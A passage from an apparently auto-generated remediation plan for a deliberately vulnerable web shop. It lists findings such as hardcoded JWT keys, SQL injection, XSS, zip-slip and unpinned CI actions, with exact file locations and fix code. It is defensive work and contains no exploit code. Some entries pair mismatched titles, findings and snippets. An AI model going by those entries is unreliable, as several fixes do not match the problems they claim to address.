[M-044](#m-044) — Bound and validate verify-challenge input length and harden the…<br/>❷ [M-045](#m-045) — Rate-limit and lock out repeated authentication attempts<br/>❷ [M-046](#m-046) — Add server-side token revocation with jti deny-list and shorter…<br/>❷ [M-047](#m-047) — Remove server-side evaluation of untrusted input<br/>❷ [M-048](#m-048) — Enforce server-side authorization on every endpoint<br/>❷ [M-049](#m-049) — Enforce server-side authorization on every endpoint<br/>❷ [M-050](#m-050) — Add a least-privilege top-level permissions block to every workflow<br/>❷ [M-051](#m-051) — Pin third-party dependencies to immutable versions<br/>❷ [M-052](#m-052) — Make `User.role` non-mass-assignable and authorize role changes in a…<br/>❷ [M-053](#m-053) — Enforce admin/accounting authorization server-side on every privileged…<br/>❷ [M-054](#m-054) — Enforce server-side authorization<br/>❷ [M-055](#m-055) — Gate `/rest/web3` endpoints behind security.isAuthorized and scope state…<br/>❸ [M-008](#m-008) — Drop unnecessary privileges in build and runtime<br/>❸ [M-009](#m-009) — Sign and verify release artifacts<br/>❸ [M-010](#m-010) — Disable untrusted package install scripts<br/>❸ [M-011](#m-011) — Apply least-privilege permissions<br/>❸ [M-015](#m-015) — Introduce a Backend-for-Frontend that holds tokens server-side and…<br/>❸ [M-037](#m-037) — Encrypt the SQLite file and apply field-level encryption to card…<br/>❸ [M-039](#m-039) — Replace implicit flow with Authorization Code + PKCE and keep tokens…<br/>❸ [M-040](#m-040) — Store session tokens in HttpOnly, Secure cookies<br/>❸ [M-056](#m-056) — Verify token signatures before trusting claims<br/>❸ [M-057](#m-057) — Adopt OIDC Trusted Publishing and remove the long-lived DOCKERHUB_TOKEN<br/>❸ [M-058](#m-058) — Authenticate the Socket\.IO handshake with the session token and…<br/>❸ [M-059](#m-059) — Pin third-party dependencies to immutable versions<br/>❸ [M-060](#m-060) — Add Dependabot updates plus a blocking dependency-review gate on PRs<br/>❸ [M-061](#m-061) — Encode output instead of bypassing the framework sanitizer<br/>❸ [M-062](#m-062) — Verify token signatures before trusting claims<br/>❸ [M-063](#m-063) — Add security audit logging<br/>❸ [M-064](#m-064) — Add security audit logging<br/>❸ [M-065](#m-065) — Add security audit logging<br/>❸ [M-066](#m-066) — Return generic error messages to clients<br/>❸ [M-067](#m-067) — Minimize secret scope and isolate the privileged step<br/>❸ [M-068](#m-068) — Rate-limit and lock out repeated authentication attempts<br/>❸ [M-069](#m-069) — Apply per-IP connection limits and per-event rate limiting to the…<br/>❹ [M-012](#m-012) — Add a container healthcheck<br/>❹ [M-013](#m-013) — Pin the container base image to an immutable digest<br/>❹ [M-014](#m-014) — Pin the container base image to an immutable digest<br/>❹ [M-070](#m-070) — Emit signed SLSA provenance and SBOM attestations on the published image<br/>❹ [M-071](#m-071) — Add security audit logging<br/>❹ [M-072](#m-072) — Add security audit logging<br/>❹ [M-073](#m-073) — Stop exposing internal information to clients<br/>❹ [M-074](#m-074) — Source the Socket\.IO CORS origin from configuration with an explicit…<br/>❹ [M-075](#m-075) — Return generic error messages to clients<br/>❹ [M-076](#m-076) — Enforce data-export throttling and CAPTCHA validation server-side, not…

### P1 — Immediate

<a id="m-001"></a>
#### M-001 — Move cryptographic keys to a managed secret store

**Addresses:**

- 🔴 [F-002](#f-002) — Hardcoded RSA JWT signing key in source (`lib/insecurity.ts:23`)
- 🔴 [F-008](#f-008) — Hardcoded RSA signing key enables offline JWT forgery (`lib/insecurity.ts:23`)
- 🔴 [F-020](#f-020) — Hardcoded HMAC key guards knowledge-based password reset (`lib/insecurity.ts:44`)
- 🔴 [F-029](#f-029) — Security answers HMAC'd with a hardcoded static (`models/securityAnswer.ts:48`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:23`

**How:**

1. Generate a fresh RSA-2048 (or EdDSA) key pair and load the private key from an environment variable or secret manager (e.g. `process.env.JWT_PRIVATE_KEY` / AWS Secrets Manager), never a source literal.
2. Treat the committed key at `lib/insecurity.ts:23` as permanently compromised: revoke it, rotate, and invalidate all outstanding tokens signed with it.
3. Add the key path to .gitignore and a pre-commit secret scanner (gitleaks) to prevent regression.
4. Verify with the matching public key only (`encryptionkeys/jwt.pub`) and pin algorithm `RS256` on verification.
5. Generate a fresh RSA keypair and load the private key at startup from an environment variable or secret manager (e.g. `process.env.JWT_PRIVATE_KEY` or a KMS), never from source.
6. Remove the literal key from `lib/insecurity.ts` and purge it from `git history`.
7. Treat all previously issued tokens as compromised and rotate immediately.
8. Move the HMAC key out of source into an environment variable / secret store and rotate the exposed value.
9. Replace security-question reset with a single-use, time-limited reset token delivered to the registered email address (RFC-style opaque token, hashed at rest).
10. Rate-limit and lock the reset endpoint per account identity, not per request header, to blunt answer guessing.
11. If security questions are retained as a secondary factor, store answers with a per-user-salted KDF rather than a global HMAC.
12. Replace `security.hmac` in the SecurityAnswer setter (`models/securityAnswer.ts:48`) with a salted adaptive hash (bcrypt/argon2id) so each record carries a unique salt and the digest is not precomputable.
13. Remove the hardcoded key literal from `lib/insecurity.ts:44`; if a keyed MAC is still required elsewhere, load the key from an environment-provided secret, not source.
14. Normalize answers (lowercase, trim) before hashing to keep verification stable without weakening the hash.

```javascript
const privateKey = process.env.JWT_PRIVATE_KEY
if (!privateKey) throw new Error('JWT_PRIVATE_KEY not configured')
export const authorize = (user = {}) =>
  jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
```

**Reference:** CWE-321

---

<a id="m-002"></a>
#### M-002 — Implement comprehensive rate limiting across all sensitive endpoints

**Addresses:**

- 🔴 [F-032](#f-032) — Reset-password rate limit keyed on spoofable forwarding header (`server.ts:346`)
- 🟠 [F-033](#f-033) — No rate limiting on login endpoint permits credential (`routes/login.ts:32`)
- 🟠 [F-034](#f-034) — No rate limiting or lockout on POST `/rest/user/login` (`server.ts:595`)
- 🟠 [F-036](#f-036) — Web3 endpoints have no rate limiting and grow (`routes/web3Wallet.ts:16`)
- 🟡 [F-064](#f-064) — No rate limiting or connection cap on (`registerWebsocketEvents.ts:21`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `server.ts:346`

**How:**

1. Remove the X-Forwarded-For preference; key the limiter on `req.ip` derived from a correctly configured trust-proxy hop count, not the raw header.
2. Set `app.set('trust proxy', <known proxy count>)` instead of enabling it unconditionally so only the real upstream proxy's forwarded value is honored.
3. Additionally throttle per target account email so header rotation cannot dodge per-victim limits.
4. Wrap `/rest/user/login` with express-rate-limit keyed on a combination of source IP and submitted email, with a low max (e.g. 5 attempts / 15 min) and exponential backoff.
5. Add progressive account lockout / CAPTCHA after repeated failures for the same email.
6. Emit a structured failed-login audit event (see auth-007) so brute-force bursts are detectable.
7. Wrap `/rest/user/login` with express-rate-limit (e.g. `windowMs` 15m, max 10 per IP) and a per-account failure counter that triggers temporary lockout.
8. Key the limiter on the connection IP (`req.ip` with a correctly configured trust proxy hop count), not on raw X-Forwarded-For.
9. Apply the same trusted-key fix to the existing reset-password limiter at `server.ts:346`.
10. Apply `rateLimit({ windowMs: 5 * 60 * 1000, max: 100 })` (the same `express-rate-limit` already imported at `server.ts:31`) to `/rest/web3` before the route handlers.
11. Bound `walletsConnected` / `addressesMinted` with a max size (or a TTL cache) and validate `walletAddress` with `ethers.isAddress()` before insertion so junk input cannot grow state.
12. Add the address to the Set only after ownership/format validation rather than at the top of the handler (`routes/web3Wallet.ts:16`).
13. Introduce a per-IP connection counter in the `io.use()` handshake middleware and reject sockets beyond a sane threshold.
14. Add a token-bucket rate limiter on inbound events (e.g. a counter on `socket.data`) so a single socket cannot flood `verify*`/`notification received` handlers.
15. Configure `maxHttpBufferSize` and `pingTimeout`/`pingInterval` on the `Server` options to cap payload size and reap idle sockets.

```javascript
rateLimit({
  windowMs: 5*60_000, max: 10,
  keyGenerator: (req) => `${req.ip}:${req.body?.email ?? ''}`
})
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Forgot_Password_Cheat_Sheet.html`

---

<a id="m-016"></a>
#### M-016 — Move cryptographic keys to a managed secret store

**Addresses:**

- 🔴 [F-002](#f-002) — Hardcoded RSA JWT signing key in source (`lib/insecurity.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:23`

**How:** Generate a fresh RSA-2048 (or EdDSA) key pair and load the private key from an environment variable or secret manager (e.g. `process.env.JWT_PRIVATE_KEY` / AWS Secrets Manager), never a source literal. Treat the committed key at `lib/insecurity.ts:23` as permanently compromised: revoke it, rotate, and invalidate all outstanding tokens signed with it. Add the key path to .gitignore and a pre-commit secret scanner (gitleaks) to prevent regression. Verify with the matching public key only (`encryptionkeys/jwt.pub`) and pin algorithm `RS256` on verification.

1. Generate a fresh RSA-2048 (or EdDSA) key pair and load the private key from an environment variable or secret manager (e.g. `process.env.JWT_PRIVATE_KEY` / AWS Secrets Manager), never a source literal.
2. Treat the committed key at `lib/insecurity.ts:23` as permanently compromised: revoke it, rotate, and invalidate all outstanding tokens signed with it.
3. Add the key path to .gitignore and a pre-commit secret scanner (gitleaks) to prevent regression.
4. Verify with the matching public key only (`encryptionkeys/jwt.pub`) and pin algorithm `RS256` on verification.

```javascript
const privateKey = process.env.JWT_PRIVATE_KEY
if (!privateKey) throw new Error('JWT_PRIVATE_KEY not configured')
export const authorize = (user = {}) =>
  jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
```

**Reference:** CWE-321

---

<a id="m-017"></a>
#### M-017 — Enforce JWT signature and algorithm verification

**Addresses:**

- 🔴 [F-003](#f-003) — Insecure JWT Verification (`lib/insecurity.ts:57`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:57`

**How:** Pass algorithms: ['RS256'] explicitly to every verification call so 'none' and `HS256` confusion are rejected. Upgrade express-jwt and jsonwebtoken to current major versions (express-jwt >= 8, jsonwebtoken >= 9) which reject `alg:none` by default and require an explicit algorithms list. Replace the raw jws.verify wrapper in `verify()` with `jwt.verify(token, publicKey, { algorithms: ['RS256'] })`. Add a unit test that submits an `alg:none` token and asserts a 401.

1. Pass algorithms: ['RS256'] explicitly to every verification call so 'none' and `HS256` confusion are rejected.
2. Upgrade express-jwt and jsonwebtoken to current major versions (express-jwt >= 8, jsonwebtoken >= 9) which reject `alg:none` by default and require an explicit algorithms list.
3. Replace the raw jws.verify wrapper in `verify()` with `jwt.verify(token, publicKey, { algorithms: ['RS256'] })`.
4. Add a unit test that submits an `alg:none` token and asserts a 401.

```javascript
export const isAuthorized = () =>
  expressJwt({ secret: publicKey, algorithms: ['RS256'] } as any)
export const verify = (token: string) =>
  token ? jwt.verify(token, publicKey, { algorithms: ['RS256'] }) : false
```

**Reference:** CWE-347

---

<a id="m-018"></a>
#### M-018 — Harden the authentication flow

**Addresses:**

- 🔴 [F-004](#f-004) — OAuth deriving account password from email enables auth (`oauth.component.ts:30`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `frontend/src/app/oauth/oauth.component.ts:30`

**How:** Remove the `btoa(...email...)` password derivation; never create a guessable shared secret from a public claim. Have the backend validate the OAuth id_token server-side and issue its own session for the matched user, with no password set on OAuth-only accounts. If a local password must exist, generate a cryptographically random one server-side and never expose or derive it client-side.

1. Remove the `btoa(...email...)` password derivation; never create a guessable shared secret from a public claim.
2. Have the backend validate the OAuth id_token server-side and issue its own session for the matched user, with no password set on OAuth-only accounts.
3. If a local password must exist, generate a cryptographically random one server-side and never expose or derive it client-side.

```javascript
// server-side OAuth: verify id_token, then mint session
const claims = await verifyIdToken(idToken)           // checks iss/aud/exp/nonce
const user = await findOrCreateByEmail(claims.email)  // no client password
return issueSession(user)
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html`

---

<a id="m-019"></a>
#### M-019 — Use parameterized database queries

**Addresses:**

- 🔴 [F-005](#f-005) — SQL injection in login query enables auth bypass (`routes/login.ts:34`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/login.ts:34`

**How:** Replace the string-interpolated query with a parameterized finder: UserModel.`findOne`({ where: `{ email: req.body.email, password: security.hash(req.body.password), deletedAt: null }` }). If raw SQL is unavoidable, use sequelize replacements/bind parameters (replacements: { email }) so the driver escapes input. Add a request-body schema (express-validator / zod) that constrains email to a valid address format before it reaches the data layer.

1. Replace the string-interpolated query with a parameterized finder: UserModel.`findOne`({ where: `{ email: req.body.email, password: security.hash(req.body.password), deletedAt: null }` }).
2. If raw SQL is unavoidable, use sequelize replacements/bind parameters (replacements: { email }) so the driver escapes input.
3. Add a request-body schema (express-validator / zod) that constrains email to a valid address format before it reaches the data layer.

```javascript
const authenticatedUser = await UserModel.findOne({
  where: {
    email: req.body.email ?? '',
    password: security.hash(req.body.password ?? ''),
    deletedAt: null
  }
})
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html`

---

<a id="m-020"></a>
#### M-020 — Use parameterized database queries

**Addresses:**

- 🔴 [F-006](#f-006) — SQL injection in product search raw query (`routes/search.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/search.ts:23`

**How:** Use a bound replacement: models.sequelize.query('SELECT * FROM Products WHERE ((name LIKE :c OR description LIKE :c) AND `deletedAt` IS NULL) ORDER BY name', { replacements: { c: `%${criteria}%` }, type: QueryTypes.SELECT }). Keep the length cap but treat it as defense-in-depth, not the primary control. Consider replacing the raw query with `ProductModel.findAll({ where: { [Op.or]: [...] } })` so escaping is automatic.

1. Use a bound replacement: models.sequelize.query('SELECT * FROM Products WHERE ((name LIKE :c OR description LIKE :c) AND `deletedAt` IS NULL) ORDER BY name', { replacements: { c: `%${criteria}%` }, type: QueryTypes.SELECT }).
2. Keep the length cap but treat it as defense-in-depth, not the primary control.
3. Consider replacing the raw query with `ProductModel.findAll({ where: { [Op.or]: [...] } })` so escaping is automatic.

```javascript
models.sequelize.query(
  'SELECT * FROM Products WHERE ((name LIKE :c OR description LIKE :c) AND deletedAt IS NULL) ORDER BY name',
  { replacements: { c: `%${criteria}%` }, type: QueryTypes.SELECT }
)
```

**Reference:** CWE-89

---

<a id="m-021"></a>
#### M-021 — Enforce object-level (ownership) authorization

**Addresses:**

- 🔴 [F-007](#f-007) — Insecure Direct Object Reference (`routes/address.ts:11`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/address.ts:11`

**How:** Replace `req.body.UserId`/`userId`/`ownerId` with `req.user.id` (or equivalent session-derived identity) in every WHERE/filter clause.

```typescript
// Ownership check before touching a resource.
const basket = await Basket.findByPk(req.params.id)
if (!basket || basket.UserId !== req.user.id) return res.status(403).end()
```

**Verification:** Authenticate as user A; request `/api/Baskets/<B's id>` and confirm 403.

---

<a id="m-022"></a>
#### M-022 — Move secrets to a managed secret store

**Addresses:**

- 🔴 [F-008](#f-008) — Hardcoded RSA signing key enables offline JWT forgery (`lib/insecurity.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:23`

**How:** Generate a fresh RSA keypair and load the private key at startup from an environment variable or secret manager (e.g. `process.env.JWT_PRIVATE_KEY` or a KMS), never from source. Remove the literal key from `lib/insecurity.ts` and purge it from `git history`. Treat all previously issued tokens as compromised and rotate immediately.

1. Generate a fresh RSA keypair and load the private key at startup from an environment variable or secret manager (e.g. `process.env.JWT_PRIVATE_KEY` or a KMS), never from source.
2. Remove the literal key from `lib/insecurity.ts` and purge it from `git history`.
3. Treat all previously issued tokens as compromised and rotate immediately.

```javascript
const privateKey = process.env.JWT_PRIVATE_KEY
if (!privateKey) throw new Error('JWT_PRIVATE_KEY not configured')
```

**Reference:** CWE-798

---

<a id="m-023"></a>
#### M-023 — Hash passwords with a strong, salted algorithm

**Addresses:**

- 🔴 [F-009](#f-009) — Passwords stored as unsalted MD5 hashes (`models/user.ts:77`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `models/user.ts:77`

**How:** Replace `security.hash` in the password setter (`models/user.ts:77`) with a memory-hard adaptive hash: bcrypt (cost >= 12) or argon2id; the project already depends on bcryptjs, so call `bcrypt.hashSync(clearTextPassword, 12)`. Make hashing async or move it into an async `beforeSave` hook so the work factor does not block the event loop; store the full modular-crypt string (algorithm + salt + hash) in the password column. On next successful login, transparently re-hash legacy `MD5` passwords to the new scheme, then drop `MD5` support; never reversibly migrate.

1. Replace `security.hash` in the password setter (`models/user.ts:77`) with a memory-hard adaptive hash: bcrypt (cost >= 12) or argon2id; the project already depends on bcryptjs, so call `bcrypt.hashSync(clearTextPassword, 12)`.
2. Make hashing async or move it into an async `beforeSave` hook so the work factor does not block the event loop; store the full modular-crypt string (algorithm + salt + hash) in the password column.
3. On next successful login, transparently re-hash legacy `MD5` passwords to the new scheme, then drop `MD5` support; never reversibly migrate.

```javascript
import bcrypt from 'bcryptjs'
// in models/user.ts password setter:
set (clearTextPassword: string) {
  this.setDataValue('password', bcrypt.hashSync(clearTextPassword, 12))
}
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html`

---

### P2 — This Sprint

<a id="m-003"></a>
#### M-003 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟠 [F-023](#f-023) — No --unsafe-perm install flag — Dockerfile:5

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `Dockerfile:5`

**How:** Remove --unsafe-perm; use non-root user - `npm install --unsafe-perm` runs postinstall scripts as root, widening supply-chain compromise scope.

---

<a id="m-004"></a>
#### M-004 — Apply least-privilege permissions

**Addresses:**

- 🟠 [F-024](#f-024) — GitHub Actions workflow-level permissions block (`release.yml:1`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/release.yml:1`

**How:** Add `permissions: { contents: read }` at workflow root; elevate per-job only where needed - Without an explicit permissions block, the workflow inherits the repository default (commonly write-all) for GITHUB_TOKEN - any compromised step can push code, create releases, or approve PRs.

---

<a id="m-005"></a>
#### M-005 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟠 [F-025](#f-025) — Third-party GitHub Actions pinned to commit SHA (`lock.yml:15`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/lock.yml:15`

**How:** Pin every third-party action to a full 40-char commit SHA - Tag-based action references (@v3, @main) are mutable - a compromised publisher can retroactively inject malicious code into an already-used tag.

---

<a id="m-006"></a>
#### M-006 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-026](#f-026) — Base image must be digest-pinned — Dockerfile:1

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `Dockerfile:1`

**How:** Pin base image to @sha256:<digest> - Tag-only base images (FROM node:24) can be silently substituted by a malicious publisher. Digest-pinning (@sha256:…) ensures the exact image bytes are used on every build.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-007"></a>
#### M-007 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-027](#f-027) — On present and committed (`package-lock.json:1`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `package-lock.json:1`

**How:** Commit `package-lock.json`; use `npm ci` in CI - Without a lockfile, `npm install` installs different transitive versions on each run - supply-chain attacks become undetectable.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-024"></a>
#### M-024 — Replace security-question reset with an out-of-band token flow

**Addresses:**

- 🟠 [F-010](#f-010) — Security-question-based password reset enables (`routes/resetPassword.ts:35`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/resetPassword.ts:35`

**How:** Implement password reset via a single-use, time-limited token emailed to the registered address; remove the security-question path. Rate-limit and lock the reset endpoint per account after a few failed attempts (keyed on trusted IP, not X-Forwarded-For). Do not reveal whether an email/answer combination is valid in the response.

1. Implement password reset via a single-use, time-limited token emailed to the registered address; remove the security-question path.
2. Rate-limit and lock the reset endpoint per account after a few failed attempts (keyed on trusted IP, not X-Forwarded-For).
3. Do not reveal whether an email/answer combination is valid in the response.

```javascript
const token = crypto.randomBytes(32).toString('hex')
await ResetToken.create({ userId, token, expiresAt: Date.now() + 3600_000 })
// email link; reset only on valid, unexpired, single-use token
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Forgot_Password_Cheat_Sheet.html`

---

<a id="m-025"></a>
#### M-025 — Add security.isAuthorized middleware to the /rest/chat route registration

**Addresses:**

- 🟠 [F-011](#f-011) — Missing Authentication on Chat Endpoint (`server.ts:637`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:637`

**How:** Register the route with the existing authorization middleware: `app.post`('/rest/chat', `security.isAuthorized()`, utils.`asyncHandler`(`chat()`)). Inside the handler, treat the verified identity from the middleware as authoritative rather than re-decoding the JWT, so personalization and order-ownership checks rely on a validated principal. If anonymous chat is an intentional product requirement, document it explicitly and compensate with strict rate limiting (llm-chat-interface-004) and code-enforced tool policy (llm-chat-interface-002).

1. Register the route with the existing authorization middleware: `app.post`('/rest/chat', `security.isAuthorized()`, utils.`asyncHandler`(`chat()`)).
2. Inside the handler, treat the verified identity from the middleware as authoritative rather than re-decoding the JWT, so personalization and order-ownership checks rely on a validated principal.
3. If anonymous chat is an intentional product requirement, document it explicitly and compensate with strict rate limiting (llm-chat-interface-004) and code-enforced tool policy (llm-chat-interface-002).

```javascript
app.post('/rest/chat', security.isAuthorized(), utils.asyncHandler(chat()))
```

**Reference:** CWE-306

---

<a id="m-026"></a>
#### M-026 — Add Socket\.IO handshake authentication via `io.use` that validates the session JWT before accepting connections

**Addresses:**

- 🟠 [F-012](#f-012) — Unauthenticated WebSocket Channel (`registerWebsocketEvents.ts:24`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/startup/registerWebsocketEvents.ts:24`

**How:** Register an `io.use((socket, next) => { ... })` middleware that reads the bearer token from `socket.handshake.auth.token` and validates it with the existing `lib/insecurity` token verifier before calling `next()`. Reject unauthenticated handshakes with `next(new Error('unauthorized'))` so anonymous clients never reach the `connection` handler. Scope broadcasts that carry solution data to authenticated rooms (`socket.join(userRoom)`) rather than the global `io.emit`.

1. Register an `io.use((socket, next) => { ... })` middleware that reads the bearer token from `socket.handshake.auth.token` and validates it with the existing `lib/insecurity` token verifier before calling `next()`.
2. Reject unauthenticated handshakes with `next(new Error('unauthorized'))` so anonymous clients never reach the `connection` handler.
3. Scope broadcasts that carry solution data to authenticated rooms (`socket.join(userRoom)`) rather than the global `io.emit`.

```javascript
io.use((socket, next) => {
  const token = socket.handshake.auth?.token
  try { security.verify(token); next() }
  catch { next(new Error('unauthorized')) }
})
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html`

---

<a id="m-027"></a>
#### M-027 — Verify token signatures before trusting claims

**Addresses:**

- 🟠 [F-013](#f-013) — Wallet ownership accepted from request body without proof (`routes/nftMint.ts:41`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/nftMint.ts:41`

**How:** Issue a server-generated random nonce per session and require the client to return an `ethers.verifyMessage(nonce, signature)` result whose recovered address equals the claimed `walletAddress` before adding it to `walletsConnected` / matching it in `addressesMinted`. Reject `walletAddress` values that fail `ethers.isAddress()` and bind the verified address to the authenticated session rather than trusting raw `req.body`. Add `security.isAuthorized()` to the `/rest/web3/*` POST routes in `server.ts` so unauthenticated callers cannot drive wallet state.

1. Issue a server-generated random nonce per session and require the client to return an `ethers.verifyMessage(nonce, signature)` result whose recovered address equals the claimed `walletAddress` before adding it to `walletsConnected` / matching it in `addressesMinted`.
2. Reject `walletAddress` values that fail `ethers.isAddress()` and bind the verified address to the authenticated session rather than trusting raw `req.body`.
3. Add `security.isAuthorized()` to the `/rest/web3/*` POST routes in `server.ts` so unauthenticated callers cannot drive wallet state.

```javascript
const recovered = ethers.verifyMessage(session.nonce, req.body.signature)
if (recovered.toLowerCase() !== req.body.walletAddress.toLowerCase()) {
  return res.status(401).json({ success: false, message: 'Wallet ownership not proven' })
}
```

**Reference:** CWE-345

---

<a id="m-028"></a>
#### M-028 — Validate extracted zip entry paths with a normalized prefix containment check

**Addresses:**

- 🔴 [F-014](#f-014) — Zip-Slip path traversal in complaint zip extraction (`routes/fileUpload.ts:44`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:44`

**How:** Resolve the target path and verify it starts with the resolved upload directory + `path.sep`, rejecting anything that escapes it. Reject entries whose normalized path contains '..' segments before writing. Cap entry count and total decompressed size to also limit zip-bomb DoS.

1. Resolve the target path and verify it starts with the resolved upload directory + `path.sep`, rejecting anything that escapes it.
2. Reject entries whose normalized path contains '..' segments before writing.
3. Cap entry count and total decompressed size to also limit zip-bomb DoS.

```javascript
const dir = path.resolve('uploads/complaints')
const dest = path.resolve(dir, entry.path)
if (!dest.startsWith(dir + path.sep)) { entry.autodrain(); return }
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html`

---

<a id="m-029"></a>
#### M-029 — Pin all third-party actions to a full 40-character commit SHA

**Addresses:**

- 🟠 [F-015](#f-015) — Unpinned GitHub Action to Mutable Ref (`image_actions.yml:33`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/image_actions.yml:33`

**How:** Replace `calibreapp/image-actions@main` with `calibreapp/image-actions@<commit-sha>` and pin `actions/checkout`, `peter-evans/create-pull-request`, and `coverallsapp/github-action` to 40-char SHAs with a `# vX.Y.Z` comment. Enable a pinning enforcement tool (e.g. `pin-github-action` or the `step-security/harden-runner` audit) in CI so future unpinned refs fail review. Configure Dependabot for `github-actions` so SHA pins are kept current with an auditable PR per bump.

1. Replace `calibreapp/image-actions@main` with `calibreapp/image-actions@<commit-sha>` and pin `actions/checkout`, `peter-evans/create-pull-request`, and `coverallsapp/github-action` to 40-char SHAs with a `# vX.Y.Z` comment.
2. Enable a pinning enforcement tool (e.g. `pin-github-action` or the `step-security/harden-runner` audit) in CI so future unpinned refs fail review.
3. Configure Dependabot for `github-actions` so SHA pins are kept current with an auditable PR per bump.

```javascript
- uses: calibreapp/image-actions@<40-char-sha> # main
- uses: actions/checkout@<40-char-sha> # v6
- uses: peter-evans/create-pull-request@<40-char-sha> # v8
```

**Reference:** https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#using-third-party-actions

---

<a id="m-030"></a>
#### M-030 — Remove package-lock=false from .npmrc, commit package-lock.json, and switch CI to npm ci

**Addresses:**

- 🟠 [F-016](#f-016) — Lockfile Disabled by Config

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `.npmrc:1`

**How:** Delete the `package-lock=false` line from `.npmrc` and run `npm install` once to generate `package-lock.json`. Remove `package-lock.json` from `.gitignore:10` and commit the lockfile. Replace every `npm install` in `.github/workflows/ci.yml` and `release.yml` with `npm ci` so installs are restricted to the committed lockfile. Add `npm config set audit-level=high` and run `npm audit --omit=dev` as a blocking step so integrity drift surfaces in CI.

1. Delete the `package-lock=false` line from `.npmrc` and run `npm install` once to generate `package-lock.json`.
2. Remove `package-lock.json` from `.gitignore:10` and commit the lockfile.
3. Replace every `npm install` in `.github/workflows/ci.yml` and `release.yml` with `npm ci` so installs are restricted to the committed lockfile.
4. Add `npm config set audit-level=high` and run `npm audit --omit=dev` as a blocking step so integrity drift surfaces in CI.

```javascript
# .npmrc  (remove the disabling line)
-package-lock=false

# ci.yml — deterministic install
- run: npm ci --ignore-scripts
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/NPM_Security_Cheat_Sheet.html`

---

<a id="m-031"></a>
#### M-031 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-017](#f-017) — Stored XSS (`last-login-ip.component.ts:39`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `last-login-ip.component.ts:39`

**How:** Remove `bypassSecurityTrustHtml` at `last-login-ip.component.ts:39` and bind the IP with interpolation so Angular escapes it. Server-side, derive the login IP from the trusted connection (`req.socket`.`remoteAddress`) rather than client-supplied X-Forwarded-For, or strictly validate it as an IP literal before storing in the JWT. Reject non-IP-format values at write time so no markup can ever reach the claim.

1. Remove `bypassSecurityTrustHtml` at `last-login-ip.component.ts:39` and bind the IP with interpolation so Angular escapes it.
2. Server-side, derive the login IP from the trusted connection (`req.socket`.`remoteAddress`) rather than client-supplied X-Forwarded-For, or strictly validate it as an IP literal before storing in the JWT.
3. Reject non-IP-format values at write time so no markup can ever reach the claim.

```javascript
// template
<dd>{{ lastLoginIp }}</dd>
// component — plain string, no bypass
this.lastLoginIp = payload.data.lastLoginIp
```

**Reference:** https://`cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html`

---

<a id="m-032"></a>
#### M-032 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-018](#f-018) — DOM XSS (`search-result.component.ts:143`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `search-result.component.ts:143`

**How:** Delete the `bypassSecurityTrustHtml` call at `search-result.component.ts:143` and bind the search term with interpolation ({{ `searchValue` }}) so Angular escapes it. For the product description at line 110, sanitize server content with `DomSanitizer.sanitize(SecurityContext.HTML, ...)` instead of bypassing, or render as plain text. Keep the backend CSP (Helmet) but do not rely on it as the sole control - fix the sink.

1. Delete the `bypassSecurityTrustHtml` call at `search-result.component.ts:143` and bind the search term with interpolation ({{ `searchValue` }}) so Angular escapes it.
2. For the product description at line 110, sanitize server content with `DomSanitizer.sanitize(SecurityContext.HTML, ...)` instead of bypassing, or render as plain text.
